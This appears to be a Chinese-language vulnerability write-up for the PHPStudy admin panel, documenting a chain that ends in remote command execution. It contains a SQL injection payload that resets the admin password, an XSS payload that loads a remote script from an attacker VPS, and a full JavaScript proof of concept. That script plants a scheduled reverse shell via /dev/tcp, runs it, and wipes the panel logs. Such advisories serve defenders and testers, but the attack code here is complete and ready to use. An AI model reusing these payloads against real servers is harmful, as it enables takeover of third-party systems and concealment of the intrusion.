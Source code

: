 # PHPStudy 后台管理页面 one click RCE

## 漏洞描述

phpStudy 集安全、高效、功能与一体，已获得全球用户认可安装，运维也高效。支持一键 LAMP、LNMP、集群、监控、网站、数据库、FTP、软件中心、伪静态、云备份、SSL、多版本共存、Nginx 反向代理、服务器防火墙、Web 防火墙、监控大屏等服务器管理功能。phpStudy 面板存在存储型 XSS 漏洞，攻击者可以通过 js 调用面板中的计划任务执行系统命令。

## 影响版本

```
小皮 windows 面板 V0.102 以及以下版本
小皮 linux 面板 X1.29 以及以下版本
```

## 漏洞复现

### 方式 1 SQL 注入

phpstudy 访问面板登录页面需要添加如下 Headers：

```
x-requested-with: XMLHttpRequest
```

![image-20230519091358703](images/image-20230519091358703.png)

在用户登录处构造 Payload，其中 Password 的值是经过五次 md5 加密后的结果，脚本如下：

```python
import hashlib
str = "123456"
for i in range(0,5):
    str = hashlib.md5(str.encode()).hexdigest()
print(str)
```

填写 Payload，验证码处需要正确输入：

```
admin';UPDATE ADMINS set PASSWORD = 'c26be8aaf53b15054896983b43eb6a65' where username = 'admin';--
```

虽然提示错误信息，但此时已经成功将用户名/密码修改为： `admin/123456`

![image-20230519092040856](images/image-20230519092040856.png)

在后台计划任务处创建一个反弹 shell 脚本，点击执行：

![image-20230519092608985](images/image-20230519092608985.png)

服务器端监听，成功接收反弹 Shell：

![image-20230519092655024](images/image-20230519092655024.png)

### 方式 2 XSS

在 VPS 上放置 [poc.js](#漏洞POC)，监听 8888 端口，并通过以下命令启动 HTTP 服务：

```
python3 -m http.server 9999
```

在访问面板登录页面用户名处插入 XSS 语句：

```
<script src="http://<your-vps-ip>:9999/poc.js"></script>
```

![image-20230519100003117](images/image-20230519100003117.png)

通过方式 1，已经获得了用户名/密码为 admin/123456，进入后台验证一下计划任务是否成功写入：

![image-20230519100442704](images/image-20230519100442704.png)

等待 1 分钟，成功接收反弹 Shell：

![image-20230519094345974](images/image-20230519094345974.png)

## 漏洞POC

poc.js：

```js
function exp() {
  $.ajax({
      url: '/service/app/tasks.php?type=task_list',   //获取计划任务列表
      type: 'GET',
      headers:{
          "X-Requested-With": "XMLHttpRequest"
      },
      dataType: 'json',
      success: function (data) {
          var id = data.data[0].ID;    //任务名称
          $.ajax({
              url: '/service/app/tasks.php?type=exec_task',     //执行计划任务
              type: 'POST',
              headers:{
                  "X-Requested-With": "XMLHttpRequest",
                  "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
              },
              data: { tid: id },
              dataType: 'json',
              success: function (res) {
                  $.ajax({
                      url: '/service/app/log.php?type=clearlog',
                      type: 'POST',
                      data: { type: 'clearlog' },
                      dataType: 'json',
                      success: function (res2) {}
                  });
              }
          });
      }
  });
}

function save() {
  var data = new Object();
  data.task_id = '';
  data.title = 'test';
  data.exec_cycle = '5';
  data.week = '1';
  data.day = '3';
  data.hour = '1';
  data.minute = '1';
  data.shell = 'bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1';;
  $.ajax({
      url: '/service/app/tasks.php?type=save_shell',
      type: 'POST',
      headers:{
          "X-Requested-With": "XMLHttpRequest",
          "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
      },
      data: data,
      dataType: 'json',
      success: function (res) {
          exp();
      }
  });
}

save();
```

